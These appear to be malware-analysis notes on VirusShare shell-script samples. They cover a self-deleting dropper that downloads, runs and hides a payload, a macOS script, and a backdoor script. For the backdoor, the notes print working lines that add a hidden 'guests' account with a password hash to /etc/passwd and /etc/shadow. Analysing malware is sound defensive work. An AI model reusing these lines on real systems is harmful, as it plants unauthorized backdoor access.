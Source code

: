 ```
```

This code checkes if the system is 64-bit or not. It does the following.
1. Use wget to download. 
2. untar
3. change permission
4. clear current dir. 
5. execute with `nohup` on background. 
6. remove this script.

## Notes

1. `getconf` is a command that prints system variables. 
2. Substitutution is often used to collect system info. 
3. Logs are removed. 
4. Script can self-remove. 


--------------------------------------------------

# VirusShare_3155860c4fcee4b076c6284f9951dca0.sh

## Summary
This is a macOS script. 
1. path `/Library/Internet Plug-Ins` is a Mac OS path. 
2. `scutil` is default installed on Mac OS but not on Linux. 
3. `/Network/Gloabl/IPv4` is a Mac OS path. 


--------------------------------------------------

# VirusShare_10e9a63082c496ebec6f0d384bbed694.sh 

## Summary
It modify the `/etc/passwd` and `/etc/shadow` file to add a guest. So that the attacker can use the credentials of that user to login later on. 
```
USER='guests:x:2012:2012::/usr/dt:/bin/sh'
MAIL='magnet@tv2mail.hu'
STRN='guests:$1$TKNjHFAo$usoR2ZazE57AWkaWf8Cpl0:11107:7:91:28:::'
WORD='753951741'
        ./xgcc;mkdir /usr/dt >>/dev/null 2>&1;
	touch /usr/dt/dtinfo;
	echo $USER >> /etc/passwd;
        echo $STRN >> /etc/shadow;
        chown guests /usr/dt;
```
This code use `mkdir` to make a user home dir. 
Then use `echo` to set pre-defined passwd and shadow to sensitive files. 
Then, `chown` of the created home dir. 
Finally, remove temperary files. 

